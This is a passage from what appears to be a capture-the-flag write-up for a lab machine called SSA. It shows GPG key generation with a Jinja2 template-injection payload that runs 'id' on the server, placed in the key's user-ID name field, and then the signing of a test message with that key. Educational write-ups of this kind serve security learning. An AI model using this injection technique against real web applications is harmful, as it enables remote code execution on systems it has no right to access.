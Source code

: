     Note: Use "gpg --full-generate-key" for a full featured key generation dialog.
                                                                           
    GnuPG needs to construct a user ID to identify your key.        
                                                                           
    Real name: {{ namespace.__init__.__globals__.os.popen('id').read() }}
    Email address: rce-id@ssa.htb                                   
    You selected this USER-ID:                                      
        "{{ namespace.__init__.__globals__.os.popen('id').read() }} <rce-id@ssa.htb>"
                                                                           
    Change (N)ame, (E)mail, or (O)kay/(Q)uit? o                     
    We need to generate a lot of random bytes. It is a good idea to perform
    some other action (type on the keyboard, move the mouse, utilize the 
    disks) during the prime generation; this gives the random number
    generator a better chance to gain enough entropy.               
    We need to generate a lot of random bytes. It is a good idea to perform
    some other action (type on the keyboard, move the mouse, utilize the 
    disks) during the prime generation; this gives the random number
    generator a better chance to gain enough entropy.               
    gpg: key D84D2379F42639E4 marked as ultimately trusted          
    gpg: revocation certificate stored as '/home/oxdf/.gnupg/openpgp-revocs.d/042AC4F000212519441CF636D84D2379F42639E4.rev'
    public and secret key created and signed.                       
                                                                           
    pub   rsa3072 2023-11-14 [SC] [expires: 2025-11-13]             
          042AC4F000212519441CF636D84D2379F42639E4                  
    uid                      {{ namespace.__init__.__globals__.os.popen('id').read() }} <rce-id@ssa.htb>
    sub   rsa3072 2023-11-14 [E] [expires: 2025-11-13] 
    

  2. Sign any message with `gpg --clearsign` giving the new user with `--localuser` to get the signed message.
    
        oxdf@hacky$ gpg --clearsign -o- --local-user rce-id@ssa.htb test.msg                                 
    -----BEGIN PGP SIGNED MESSAGE-----                              
    Hash: SHA512                                                    
                                                                           
    this is a test message for the SSA
    -----BEGIN PGP SIGNATURE-----
                                                                           
    iQHDBAEBCgAtFiEEBCrE8AAhJRlEHPY22E0jefQmOeQFAmVTtXkPHHJjZS1pZEBz
    c2EuaHRiAAoJENhNI3n0Jjnkd18MALrbVvuzRBBA5qj/CBuscVBG8MVOqNeInwqj
    2r5B1rDEwetLcf0hLUS4L4Uzyegi3CcxMsV2HBsmi1QMrTH3UpiJwe9P9o/Rfgem
    B3/hUnmBJlSqxJZXNU1+kX7FRIuCFzAy9sPDY6kUmhW24wF8nYjkpZsW7Srg9VQi
    T5o7a0/nKlFgv6EVOYTD0oOs9AoWW/8Qjik2NkfiWo8WloGgcWp4syCL67loF4Mw
    3UZAK4pCI0YiN2m8OoeViNBHVbyViDFrtkbTY4X+H/kYULO2k/EPZj6A84TNO9WI
    PjMCGvQqXqki8QCH76rSnQUG/g80rZlCKICOD+KHzLBHT1Iswhu5vbUKFT4l7zMV
    ON+oqSssSPnimr2jJH4AwLToYcZ3mfOaXWVhMAD1dT1QnfbuyExNt46HtQKIv3km
    ysBroe/r7WQIgFA5XunmehALY4mL0J+LrwpOA+sWPaOTtiVGZitWjBbbVynhTPlk
    9hIzwJIqIqNkavwfi/Va7CsRtvz15g==
    =YVMd
    -----END PGP SIGNATURE-----
    

  3. Dump that user’s public key with `gpg --export -a`:
    